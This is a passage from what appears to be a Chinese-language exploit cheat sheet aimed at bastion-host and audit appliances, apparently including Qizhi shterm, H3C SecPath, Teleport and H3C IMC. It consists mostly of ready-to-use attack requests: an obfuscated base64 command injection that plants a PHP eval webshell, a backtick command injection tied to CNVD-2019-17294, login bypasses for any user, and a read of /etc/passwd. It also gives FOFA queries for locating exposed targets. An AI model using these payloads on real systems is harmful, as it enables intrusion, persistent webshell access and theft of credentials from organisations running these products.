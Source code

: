 ```
https://10.20.10.10/ha_request.php?action=install&ipaddr=10.20.10.11&node_id=1${IFS}|`echo${IFS}" ZWNobyAnPD9waHAgQGV2YWwoJF9SRVFVRVNUWzEwMDg2XSk7Pz4nPj4vdmFyL3d3dy9zaHRlcm0vcmVzb3VyY2VzL3FyY29kZS9sYmo3Ny5waHAK"|base64${IFS}- d|bash`|${IFS}|echo${IFS}
```

##### 后台命令执行 data_provider.php CNVD-2019-17294

```
POST /audit/data_provider.php?ds_y=2019&ds_m=03&ds_d=02&ds_hour=01&ds_min=40&server_cond=&service=`id`&identity_cond=&query_type=all&format=json&browse=true
Host: your-ip

page=1&rp=30&sortname=stampl&sortorder=desc&query=&qtype=
```

##### 任意用户登录

```
/audit/gui_detail_view.php?token=1&id=%5C&uid=%2Cchr(97))%20or%201:%20print%20chr(121)%2bchr(101)%2bchr(115)%0d%0a%23&login=shterm
```

#### H3C SecPath

FOFA：

```
app="H3C-SecPath-运维审计系统" && body="2018"
```

#### Teleport 堡垒机

FOFA：

```
app="TELEPORT堡垒机"
```

##### 任意用户登录

返回 code 为 0 说明成功，刷新首页即可进入后台：

```
POST /auth/do-login

args={"type":2,"username":"admin","password":null,"captcha":"xxxx","oath":"","remember":false}
```

##### 后台文件读取

```
/audit/get-file?f=/etc/passwd&rid=1&type=rdp&act=read&amp;offset=0
```

### 0x02 IMC

#### H3C IMC 智能管理中心
